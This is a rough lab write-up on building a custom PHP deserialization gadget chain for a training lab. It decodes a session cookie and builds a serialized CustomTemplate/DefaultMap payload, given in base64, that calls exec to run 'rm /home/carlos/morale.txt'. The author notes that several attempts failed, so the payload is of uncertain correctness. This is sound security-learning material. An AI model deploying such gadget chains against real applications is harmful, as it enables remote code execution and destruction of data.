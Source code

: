 ## know how deserialization Lab8 :Developing a custom gadget chain for PHP deserialization

```bash
## know how deserilization php gadget chain
## know how php deserilization php
## know how deserialization php with code whitebox
```
This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialization to achieve remote code execution. To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter


1. inspect the website

![](assets/2023-01-07-03-17-34.png)

We found /cgi-bin/libs/CustomTemplate.php . now we can see in the explorer or burpsuite adding ~ in the end

![](assets/2023-01-07-03-18-45.png)

In the code we can see DefaultMap class that call the function callback. 

![](assets/2023-01-07-03-22-25.png)

2. We try deencode the token

![](assets/2023-01-07-03-24-25.png)

```bash
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"md3a8bg4xxlgzgqnhcq4dsmt5x7qralx";}
```
To solve the lab, delete the morale.txt file from Carlos's home directory.

We need call customtemplate and set parameter default_desc_type with the exec function, in this case its rm /home/carlos/morale.txt

Second we need call defaultmap form realice callback exec.

```bash
echo "customtemplate" | wc -c
15

echo default_desc_type | wc -c
18

echo "rm /home/carlos/morale.txt" | wc -c
27

echo "defaultmap" | wc -c 
11

echo "callback" | wc -c
9
echo "exec" | wc -c
5
```
![](assets/2023-01-07-03-32-51.png)


We have two object

One is CustomTemplate with default_desc_type and desc


```bash
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";}
```
Second is DefaultMap with callback

```bash
O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}
```

Not run adding second to first. We can add into the first object the second object.

```bash

O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI2OiJybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czo0OiJkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjg6ImNhbGxiYWNrIjtzOjQ6ImV4ZWMiO319

Not run, but if we change in the cookie yes... mmm, we can try again the first step

```
![](assets/2023-01-07-03-46-55.png)

![](assets/2023-01-07-03-46-26.png)

![](assets/2023-01-07-03-46-12.png)

!!!NOT RUN, we need use the before case....!!!! we can try again the first step, we need reset the lab and remove cookies from my explorer... ok the lab have removed the morale... we need wait to auto reset the laboratorie

If we put the two object not run

![](assets/2023-01-07-04-02-18.png)